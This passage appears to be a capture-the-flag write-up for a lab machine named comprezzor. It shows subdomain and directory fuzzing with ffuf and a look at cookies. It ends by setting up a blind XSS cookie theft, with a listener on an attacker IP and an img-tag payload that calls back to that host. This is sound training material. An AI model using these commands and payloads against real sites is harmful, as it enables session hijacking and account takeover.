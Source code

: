 ### Initial Recon and Enumeration

My initial nmap scan revealed only two open ports. To be on the safe side, I added a quick udp scan to be thorough, but found no open ports. My only entrances are ports 22 and 80. I add the host name that I got from my nmap scan to `/etc/hosts` and began subdomain and directory enumeration. 

```
ffuf -u http://comprezzor.htb -H 'Host: FUZZ.comprezzor.htb' -w /usr/share/wordlists/subdomains/n0kovo_subdomains/n0kovo_subdomains_large.txt -fs 178
```

Subdomain enumeration revealed auth, dashboard, and report.

```
ffuf -u http://dashboard.comprezzor.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e ".php,.html,.txt"
```

Directory enumeration on the dashboard subdomain found the directory `/backup`.

I did a few more scans, and while they finished up I started looking at the the subdomains. Auth had a login portal, which I threw some weak usernames and passwords into to no avail. I registered a user for the site here. Dashboard was unavailable, and report had a submission form once I logged in with the user I registered earlier. The submission form seemed like my best bet, so I switched over to Burp and started messing with it. 

### Cookie Investigation and Blind XSS Attack

After looking through the requests and responses I noticed something interesting.

Request:
```
Set-Cookie: user_data=eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImdheSIsICJyb2xlIjogInVzZXIifXxlMGY3OTczMzlmNzM2YjNhNmYyYjk5ODYwOWEyYjc2MmU3N2Y1MmZkODdiYzEwYmFjY2Q4N2JlMDRkZDNiMDQ4; Domain=.comprezzor.htb; Path=/
```

Response:
```
Set-Cookie: session=.eJwtyzEOgzAMRuGr_PVc9QCMvQAHQKhKUkOiGqhiWwgh7g4D0xs-vZ0-gwTNrNR0O8GukHpKrEpPevuIyv-lGtTjVMz4i5sHF9keaL3COExYiwgiI2VOvzKPWGZYLgrN1y_bi_qjP07Z8SiE.Zi8C8g.q_CJvbfdfNtdejRyqzqrzvpOiN4; Domain=.comprezzor.htb; HttpOnly; Path=/
```

The `HttpOnly` flag is set on cookies to tell the browser that the cookie should only be accessible through **HTTP(S)** requests and should not be available to client-side scripts (like JavaScript). This means that if the flag is not set, the browser could expose the cookie. If a session cookie is accessible to JavaScript I can steal a user's session cookie with an XSS attack and impersonate them. I used a payload from [this github repository](https://github.com/lauritzh/blind-xss-payloads). This is a blind XSS so I'll need to have a listener set up to catch the cookie.

```
python3 -m http.server 8000
```

First I tried a simple get.

```
<img src="http://10.10.14.2:8000">
```
